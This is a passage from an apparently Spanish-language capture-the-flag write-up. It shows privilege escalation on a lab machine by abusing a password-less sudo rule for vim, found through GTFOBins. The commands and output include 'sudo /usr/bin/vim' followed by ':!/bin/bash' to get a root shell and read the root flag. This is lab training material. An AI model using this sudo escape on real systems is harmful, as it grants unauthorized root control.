 ```bash
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

Al revisar los binarios que podemos ejecutar con permisos **SUDO**, nos damos cuenta de que podemos utilizar el binario `vim` sin necesidad de proporcionar una contraseña. Ante esta situación, consultamos [GTFOBins](https://gtfobins.github.io/) para determinar si existe alguna posibilidad de abusar de `vim` con estos privilegios elevados y encontrar una forma de escalar nuestros privilegios.

![sudo](sudo.png)

Al explorar las posibles formas de abusar de Vim con permisos SUDO según GTFOBins, encontramos una opción que parece adecuada para nuestro objetivo. En este caso, utilizaremos la primera opción sugerida. A continuación, describiré cómo podemos llevar a cabo este abuso:

Ejecutamos el siguiente comando para iniciar Vim:

```bash
sudo /usr/bin/vim
```

Una vez dentro de Vim, ingresamos el siguiente comando en el modo de edición

```bash
[...]

~                                                                                                                                                                                     
~                                                                                                                                                                                     
~                                                                                                                                                                                     
:!/bin/bash
root@Machine:/home# whoami
root
```

Esto nos permitirá ejecutar un shell de Bash con privilegios de **root** desde dentro de Vim. 

Finalmente, como **root**, accedemos al directorio principal y procedemos a leer la última flag de la máquina.

```bash
root@Machine:~# cd /root
root@Machine:/root# ls
root.txt
root@Machine:/root# cat root.txt
W3ll****************
```

!Happy Hacking!
